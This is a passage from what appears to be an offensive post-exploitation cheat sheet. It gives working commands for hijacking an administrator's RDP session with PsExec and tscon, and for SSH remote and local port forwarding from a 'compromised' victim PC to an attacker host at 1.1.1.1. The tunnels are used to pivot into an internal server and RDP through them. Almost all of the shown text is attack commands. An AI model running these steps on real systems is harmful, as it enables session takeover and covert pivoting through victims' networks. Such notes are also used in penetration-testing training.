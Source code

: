 ```powershell
# Open command prompt as administrator and run the command below:
> PsExec64.exe -s cmd.exe
> query user
# this will show the session the administrator is logged in via rdp

# Hijack the session using the command
> tscon 3 /dest:rdp-tcp#6
```

## 5. Port Forwarding

### 5.1. SSH Tunneling

```bash
# SSH tunneling - Start a tunnel from the compromised PC-1 machine, acting as a SSH client, to the attacker PC which will act as an SSH server
# with this tunnel we can reach other devices on the network such as Server (3.3.3.3)

# create a user without access to any console for tunneling
# and set a password to use for creating the tunnels
$ useradd tunneluser -m -d /home/tunneluser -s /bin/true
$ passwd tunneluser
```

#### 5.1.1 SSH Remote Port Forwarding

```powershell
# on the windows victim machine run:
> ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389
# this will establish a SSH session from PC1 to Attacker PC (1.1.1.1) using the tunneluser user
# with this session we can reach the server (3.3.3.3)
# the ports do not need to match
```

* With the tunnel set we can go to the attacker machine and RDP into the forwarded port to reach the server:

```bash
$ xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword
```

#### 5.1.2. SSH Local Port Forwarding

* Run the following command on the victim Windows PC:

```bash
# forward port 80 from the attacker's machine and make it available from PC-1
> ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N
```

* On the attacker machine - add the required firewall rule:

```bash
$ netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```
